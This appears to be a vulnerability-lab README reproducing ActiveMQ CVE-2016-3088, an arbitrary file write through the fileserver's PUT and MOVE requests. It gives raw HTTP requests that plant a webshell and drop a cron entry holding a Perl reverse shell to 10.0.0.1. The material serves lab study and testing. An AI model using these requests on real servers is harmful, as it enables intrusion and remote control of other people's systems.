 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.

## Vulnerability Details

This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.

Write files such as cron or ssh key

1. Write Webshell
2. Write files such as cron or ssh key
3. Write libraries and configuration files such as jar or jetty.xml

The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.

Let we talk about the above several methods.

### Write Webshell

As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.

The default ActiveMQ account and password is `admin`. First, visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Then move it to the API folder (`/opt/activemq/webapps/api/s.jsp`) in the Web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):

![](03.png)

### Write crontab, automate reverse shell

This is a relatively stable method. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab execution will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

![](01.png)

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.

In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.

Not tested yet.

